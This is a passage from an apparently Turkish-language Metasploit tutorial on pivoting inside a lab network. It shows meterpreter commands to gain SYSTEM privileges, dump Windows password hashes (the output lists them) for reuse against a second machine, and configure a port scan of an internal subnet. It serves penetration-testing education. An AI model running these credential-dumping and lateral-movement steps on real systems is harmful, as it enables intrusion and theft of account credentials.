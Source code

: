 

## 2.Bilgisayara Bağlantı



İlk bilgisayarda `getsystem` komutuyla hash bilgilerini elde edelim. Bu hash bilgilerini kullanarak 2. bilgisayara bağlanmaya çalışacağız. Ağdaki bilgisayarların, hash değerleriyle yetki kontrolü yaptığını hatırlayın. Bu teknikle ilgili <a href="https://siberoloji.github.io/metaspliot-framework-yetki-yukseltme/">Metasploit Framework Yetki Yükseltme</a> yazısına bakabilirsiniz.



Aşağıdaki komutlarla, `getsystem` ile SYSTEM bilgilerini elde ediyoruz, `hashdump` ile hash bilgilerini alıyoruz ve `CTRL+Z` tuşları ile oturumu arka plana gönderiyoruz.


```bash
meterpreter > getsystem
...got system **(**via technique 1**)**.

meterpreter > run hashdump
> Obtaining the boot key...
> Calculating the hboot key using SYSKEY c2ec80f879c1b5dc8d2b64f1e2c37a45...
> Obtaining the user list and keys...
> Decrypting user keys...
> Dumping password hashes...


Administrator:500:81cbcea8a9af93bbaad3b435b51404ee:561cbdae13ed5abd30aa94ddeb3cf52d:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
HelpAssistant:1000:9a6ae26408b0629ddc621c90c897b42d:07a59dbe14e2ea9c4792e2f189e2de3a:::
SUPPORT_388945a0:1002:aad3b435b51404eeaad3b435b51404ee:ebf9fa44b3204029db5a8a77f5350160:::
victim:1004:81cbcea8a9af93bbaad3b435b51404ee:561cbdae13ed5abd30aa94ddeb3cf52d:::


meterpreter > 
Background session 1? **[**y/N]  
msf exploit**(**ms10_002_aurora**)** >
```



## 2.Bilgisayar Ağını Tarama



Rotalama sayesinde artık 2. bilgisayar ağı ile haberleşebiliyoruz. O zaman bu ağı tarayalım ve `139` ile `445` numaralı portları açık olup olmadığına bakalım. İsterseniz tüm portları da tarayabilirsiniz. Biz sadece örnek vermek için bu iki portu tarayacağız. Bu tarama işlemi için `auxiliary/scanner/portscan/tcp` modülünü kullanacağız. Modülde RHOSTS değişkenini `RHOSTS 10.1.13.0/24` olarak ayarladığımıza dikkat edin.


```bash
msf exploit**(**ms10_002_aurora**)** > use auxiliary/scanner/portscan/tcp 
msf auxiliary**(**tcp**)** > show options

Module options:

   Name         Current Setting  Required  Description
   ----         ---------------  --------  -----------
   CONCURRENCY  10               yes       The number of concurrent ports to check per host
   FILTER                        no        The filter string **for **capturing traffic
   INTERFACE                     no        The name of the interface
   PCAPFILE                      no        The name of the PCAP capture file to process
   PORTS        1-10000          yes       Ports to scan **(**e.g. 22-25,80,110-900**)**
   RHOSTS                        yes       The target address range or CIDR identifier
   SNAPLEN      65535            yes       The number of bytes to capture
   THREADS      1                yes       The number of concurrent threads
```